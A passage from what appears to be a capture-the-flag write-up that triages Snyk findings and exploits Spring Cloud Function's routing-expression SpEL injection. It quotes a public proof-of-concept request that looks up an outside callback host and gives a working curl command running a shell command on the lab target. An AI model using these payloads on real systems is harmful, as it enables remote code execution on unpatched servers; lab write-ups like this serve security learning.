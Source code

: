 ```bash
    introduced by org.springframework.cloud:spring-cloud-function-web@3.2.2 > org.springframework.cloud:spring-cloud-function-context@3.2.2

Issues with no direct upgrade or patch:
  ✗ Arbitrary Code Execution [Medium Severity][https://security.snyk.io/vuln/SNYK-JAVA-ORGYAML-3152153] in org.yaml:snakeyaml@1.29
    introduced by org.springframework.boot:spring-boot-starter-thymeleaf@2.6.5 > org.springframework.boot:spring-boot-starter@2.6.5 > org.yaml:snakeyaml@1.29
  This issue was fixed in versions: 2.0
```

Snyk does an amazing job listing out all the vulnerable packages. It also includes a link to a more detailed write up and a severity score. Going through the list I highlight the following packages as interesting candidates to dive deeper into:

- [Remote Code Execution](https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORK-2436751) in org.springframework:spring-beans@5.3.17 (Critical)
- [Remote Code Execution](https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORKCLOUD-2436645) in org.springframework.cloud:spring-cloud-function-context@3.2.2 (Critical)

I briefly played around with the beans exploit, because it seemed a rather trivial exploit. But I didn’t really get it working. So I moved on plan B the `spring-cloud-function`. The CVE report on Snyk refers to the following POC on github: [https://github.com/hktalent/spring-spel-0day-poc](https://github.com/hktalent/spring-spel-0day-poc). Which looks something like this:

```
POST /functionRouter HTTP/1.1
host:127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.2 Safari/605.1.15
Connection: close
spring.cloud.function.routing-expression:T(java.net.InetAddress).getByName("random87535.rce.51pwn.com")
Content-Length: 5

51pwn
```

Translating this to a curl request I get the following command, which when  executed successfully it should create a file `/tmp/exce_me` on the target machine.

```bash
curl -i -s -k -X 'POST' \
	-H 'Host: 10.10.11.204:8080' \
	-H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/exec_me")' \
	--data-binary 'exec_me' 'http://10.10.11.204:8080/functionRouter'
```

To verify if my exploit works I can use the LFI to see if the file got created. And indeed it does!
